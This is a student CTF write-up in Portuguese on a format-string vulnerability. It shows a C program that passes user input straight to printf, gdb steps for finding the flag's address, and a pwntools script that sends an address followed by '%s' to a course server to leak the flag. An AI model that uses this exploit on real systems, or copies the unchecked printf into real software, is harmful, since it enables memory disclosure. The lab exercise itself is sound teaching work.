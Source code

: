 
## CTF Part 1

- para sabermos com o que estamos a lidar nos demos uma vista de olhos no main.c
```c

#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}

```
- podemos ver que o scan f esta desprotegido e que o scanf vai imprimir na shell 32 bytes e que o buffer com a flag é uma variavel global, quando nos corremos o codigo checksec temos este output

```shell
[*] '/home/seed/Downloads/Semana7-Desafio1/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
- Com isto nos sabemos que o endereçamento utilizado é little edian
- para obter o endereço do buufer com a flag nos usamos alguns comando do edb para fazermos isso inicialmente nos usamos o exploit template que nos foi fornecido  
```c
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"oi")
p.interactive()
```
- depois de executarmos este codigo tivemos este output

![Alt text](Images/image-71.png)

- com este resultado nos conseguimos saber o pid para executarmos num outro terminal o programa com o edb com este codigo que vai ligar o edb ao processo que depois nos vai permitir saber o address do buffer 
```shell
gdb attach 4287

```
- este comando vai correr o gdb neste processo e usando este comando conseguimos o address do buffer

```gdb
p &flag
```
- dando este output

![Alt text](Images/image74.png)

- Nos ja temos informações necessárias para o ataque 
- agora nos so temos de descobrir o offset alteramos uma linha de codigo para saber onde é que nos começavamos a encontrar os elementos do printf
```py
p.sendline(b"AAAA%.8x%.8x")
```
- tivemos este output

![Alt text](Images/image-72.png)

- com este output nos sabemos que não ha offset ou seja para concluir este ctf nos so precisamos de meter o address do buffer e aceder ao buffer utilizando %s que acede a buffers
- o address que recebemos pelo edb é o 0x804c060 mas ele tem que ter um zero a esquerda devido a arquitetura logo o address é 0x0804c060 colocando o em little edian é 0x60 , 0xc0 , 0x04 , 0x08 seguindo o adress do %s o nosso codigo esta feito vai ser alguma coisa com isto
```py
p.sendline(b"\x60\xc0\x04\x08%s")
```
- alterando o Local para False ficamos com este codigo 
```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()

```
- dando o seguinte resultado 

![Alt text](Images/image-73.png)
## CTF part 2

